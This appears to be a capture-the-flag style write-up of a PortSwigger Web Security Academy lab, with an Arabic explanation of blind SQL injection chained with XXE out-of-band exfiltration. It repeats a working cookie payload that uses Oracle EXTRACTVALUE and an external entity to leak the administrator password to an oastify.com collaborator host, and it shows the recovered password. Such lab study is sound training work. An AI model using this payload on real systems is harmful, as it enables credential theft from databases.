Cookie: TrackingId=uSdq0uCSJ0Bo21MN'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.2x0kd4arp9wf4u2tlk2exq5940aryomd.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--; session=zahAEPB6Ls0SjsSsM8q2e3HMjPIF7gfi
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers



```



## **`payload`**

```url
Cookie: TrackingId=uSdq0uCSJ0Bo21MN'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.2x0kd4arp9wf4u2tlk2exq5940aryomd.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--; 
```




<img width="1515" height="762" alt="image" src="https://github.com/user-attachments/assets/abc60122-0eb3-4b9a-ac53-a920a58cd44a" />

**`password`**

```
 l9fegk90yhnd387imm9m
```






- <details>


	
	
	
	
	# 📌 شرح استغلال SQLi + XXE OOB (Out-of-Band)
	
	## 🔎 الطلب المرسل:
	```http
	GET / HTTP/2
	Host: 0a5d00a904001c92814e203400120057.web-security-academy.net
	Cookie: TrackingId=uSdq0uCSJ0Bo21MN'+UNION+SELECT+EXTRACTVALUE(
	  xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f>
	  <!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.2x0kd4arp9wf4u2tlk2exq5940aryomd.oastify.com/">+%25remote%3b]>'),
	'/l') FROM dual--; session=zahAEPB6Ls0SjsSsM8q2e3HMjPIF7gfi
	```
	
	---
	
	## 📌 الخطوات اللي بتحصل:
	
	### 1. SQL Injection  
	- الاستغلال بدأ من متغير `TrackingId` في الكوكيز.  
	- تمت إضافة:  
	  ```sql
	  '+UNION+SELECT+EXTRACTVALUE(xmltype(...),'/l') FROM dual--
	  ```
	- الهدف: تنفيذ **XXE عبر قاعدة البيانات**.
	
	---
	
	### 2. EXTRACTVALUE + XMLType  
	- `EXTRACTVALUE` تفسر النص كـ XML.  
	- `xmltype('<...>')` يحتوي على **DTD**.  
	- داخل الـ DTD تم تعريف **External Entity (%remote)**.
	
	---
	
	### 3. الـ Out-of-Band Exploit (OOB)  
	```xml
	<!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.2x0kd4arp9wf4u2tlk2exq5940aryomd.oastify.com/">
	```
	- يعمل **DNS/HTTP request خارجي**.  
	- اسم الدومين يصبح:  
	  ```
	  [باسوورد الأدمن].2x0kd4arp9wf4u2tlk2exq5940aryomd.oastify.com
	  ```
	- مثال: لو الباسوورد `abc123` → الطلب سيكون:  
	  ```
	  http://abc123.2x0kd4arp9wf4u2tlk2exq5940aryomd.oastify.com
	  ```
	
	---
	
	### 4. استقبال البيانات عبر Burp Collaborator / OAST  
	- عند تنفيذ الطلب الخارجي، السيرفر يقوم بـ **DNS lookup** أو **HTTP request**.  
	- الباسوورد يتسجل عندك على الـ **Burp Collaborator client**.  
	- هكذا تسحب بيانات الأدمن **خارج القناة (Out-of-Band)**.
	
	---
	
	## 🎯 الهدف النهائي
	- استغلال **SQLi** → حقن دوال XML → تنفيذ **XXE External Entity** → تسريب بيانات حساسة (باسوورد الأدمن) إلى خادمك الخارجي.  
	- التقنية = **SQLi + XXE OOB** → مفيدة جدًا عند غياب النتائج المباشرة في الـ response.
	
	


  </details>



<img width="1263" height="594" alt="image" src="https://github.com/user-attachments/assets/eca20b92-8d0a-41af-94d3-228b7f75cf13" />



 
</details>





























## [Portsqigger cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)



































